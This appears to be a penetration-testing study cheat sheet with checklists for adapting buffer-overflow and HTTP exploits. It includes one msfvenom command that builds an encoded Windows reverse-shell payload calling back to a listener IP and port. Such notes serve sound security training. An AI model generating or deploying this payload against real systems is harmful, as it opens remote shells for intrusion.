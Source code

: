 
### Buffer overflow
- make sure the connection works, cross-compile if necessary. (Make sure to use libraries)
- Check for any mentioned "bad characters"
Use MSFVenom for a payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.231 LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
- Check if the jump is correct

### Http
- Does it initiate an HTTP or HTTPS connection?
- Does it access a specific web application path or route?
- Does the exploit leverage a pre-authentication vulnerability?
- If not, how does the exploit authenticate to the web application?
- How are the GET or POST requests crafted to trigger and exploit the vulnerability? Is there any HTTP method involved?
- Does it rely on default application settings (such as the web path of the application) that may have been changed after installation?
- Will oddities such as self-signed certificates disrupt the exploit?